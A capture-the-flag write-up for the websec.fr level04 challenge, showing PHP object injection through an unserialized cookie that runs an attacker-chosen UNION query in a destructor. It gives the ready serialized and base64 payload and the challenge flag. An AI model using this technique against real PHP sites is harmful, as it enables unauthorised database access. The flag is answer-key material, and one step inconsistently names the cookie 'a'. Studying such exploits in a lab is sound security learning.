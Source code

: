 # level04 - 1 point
[Link to the challenge](http://websec.fr/level04)

## Description
```
Serialization is a pain!
```
Since we're lazy, we take advantage of php's garbage collector to properly display query results.
We also do like to write neat OOP. You can get the sources here and here.

## Write-up
They provide two PHP files that are used to process the requisitions made to the server and to the SQLite database that is running:

#### source1.php
``` PHP
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>

// There's some HTML code here, but we don't need it...
```

#### source2.php
``` PHP
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

By analysing both of these scripts we can highlight some important stuff that will "enable" the attack:
- The `id` has to be numeric to normally execute a query (`if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id']))`);
- We have control over a cookie called `leet_hax0r`, that is base64 decoded and unserialized;
- `$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));` might allow Object Injection because of the `unserialize()` method;
- The `SQL` class has a magic method ` __destruct()` (that is called when the PHP code executes the `die()` command), reinforcing the idea of an Object Injection;
 - When the `destruct()` method is called, it establishes a SQLite database connection and executes a query. We can inject a serialized object (class `SQL`) with a value for `$query` (which is public). SO, when the `destruct()` method is called, we execute the query we want.

Based on this, we firstly try the program with `id=1`. We discover that the username "flag" has the ID 1.

Then, just to be sure we analyse the `leet_hax0r` cookie we get: `YToxOntzOjI6ImlwIjtzOjE1OiIxNzkuMTU0LjE0Mi4yMzEiO30%3D`
``` bash
urlencode -d YToxOntzOjI6ImlwIjtzOjE1OiIxNzkuMTU0LjE0Mi4yMzEiO30%3D
YToxOntzOjI6ImlwIjtzOjE1OiIxNzkuMTU0LjE0Mi4yMzEiO30=

echo 'YToxOntzOjI6ImlwIjtzOjE1OiIxNzkuMTU0LjE0Mi4yMzEiO30=' | base64 -d
a:1:{s:2:"ip";s:15:"179.154.142.231";}

After unserializing we get:
(
    [ip] => 179.154.142.231
)
```

Ok, now back to the attack!

We can create our own SQL query, serialize it and base64 encode it. Then, we send it as the `a` cookie. This will trigger the `die()` function, because `$sess_data` won't be an array. As a consequence, the `destruct()` method of any existing `SQL` objects will be triggered, executing this piece of code:
``` PHP
if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
```

We need our query result to be from the "username" column. Therefore, we should use an UNION to bypass this and get a password:
``` SQL
SELECT username FROM users WHERE id=1 UNION SELECT password from users WHERE id=1";
```
Then, we serialize it: `O:3:"SQL":1:{s:5:"query";s:81:"SELECT username FROM users WHERE id=1 UNION SELECT password from users WHERE id=1";}`

And base64 encode it: `TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ==`

When we send our request with `leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ==` we get as a response the flag's password:
```
Username: WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```
which is what we needed to finish the challenge!

**Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`**


---
#### Links that really helped me understand better what was going on:
https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
https://www.php.net/manual/en/function.unserialize.php
https://www.geeksforgeeks.org/php-exit-function/

